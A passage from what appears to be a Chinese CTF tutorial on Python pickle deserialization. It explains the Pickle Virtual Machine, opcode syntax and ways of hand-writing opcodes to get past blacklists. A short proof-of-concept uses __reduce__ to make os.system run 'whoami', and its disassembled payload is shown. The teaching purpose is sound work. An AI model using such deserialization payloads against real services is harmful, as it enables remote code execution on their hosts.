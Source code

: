 而出题的话，当然不会直接限制死，往往都是黑名单漏几个，白名单多几个，去构造。这就需要我们手撕opcode，因为`__reduce__`只能返回一个元祖，沙盒逃逸的情况往往都是一长串的。

要解析opcode自然离不开PVM(Pickle Virtual Machine)，pvm涉及到三个部分：

- 解析引擎：从流中读取 opcode 和参数，并对其进行解释处理。重复这个动作，直到遇到 `.` 停止。最终留在栈顶的值将被作为反序列化对象返回。
- 栈区：最核心的数据结构，所有的数据操作几乎都在栈上。为了应对数据嵌套，栈区分为两个部分：当前栈专注于维护**最顶层的信息**，而前序栈维护下层的信息。这两个栈区的操作过程将在讨论MASK指令时解释。
- 存储区(memo)：将反序列化完成的数据以 `key-value` 的形式储存在memo中，以便后来使用。大多数情况，我们并不需要用到这个部分。

![](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/08/20210815155926.png)

Pickletools是一个利于我们反汇编pickle的工具，举一个例子看看

```python
import pickletools
import pickle
import os

class exp(object):
    def __reduce__(self):
        return (os.system,('whoami',))
e = exp()
s = pickle.dumps(e,0)
print(s.decode())
pickletools.dis(s)
```

同时，`pickle.dumps`一共有6种形式，其中版本0最利于我们观察，越往后为了效率增加了很多字符，不过好在load是向前兼容的，所以我们后面的分析都采用版本0

```bash
cposix
system
p0
(Vwhoami
p1
tp2
Rp3
.
    0: c    GLOBAL     'posix system'
   14: p    PUT        0
   17: (    MARK
   18: V        UNICODE    'whoami'
   26: p        PUT        1
   29: t        TUPLE      (MARK at 17)
   30: p    PUT        2
   33: R    REDUCE
   34: p    PUT        3
   37: .    STOP
highest protocol among opcodes = 0

```

关于opcode的语法，官方[源码](https://github.com/python/cpython/blob/3.8/Lib/pickle.py)有点含糊，不过有师傅总结下来了：

| opcode | 描述                                                         | 具体写法                                           | 栈上的变化                                                   | memo上的变化 |
| ------ | ------------------------------------------------------------ | -------------------------------------------------- | ------------------------------------------------------------ | ------------ |
| c      | 获取一个全局对象或import一个模块（注：会调用import语句，能够引入新的包） | c[module]\n[instance]\n                            | 获得的对象入栈                                               | 无           |
| o      | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o                                                  | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 | 无           |
| i      | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n                            | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 | 无           |
| N      | 实例化一个None                                               | N                                                  | 获得的对象入栈                                               | 无           |
| S      | 实例化一个字符串对象                                         | S'xxx'\n（也可以使用双引号、\'等python字符串形式） | 获得的对象入栈                                               | 无           |
| V      | 实例化一个UNICODE字符串对象                                  | Vxxx\n                                             | 获得的对象入栈                                               | 无           |
| I      | 实例化一个int对象                                            | Ixxx\n                                             | 获得的对象入栈                                               | 无           |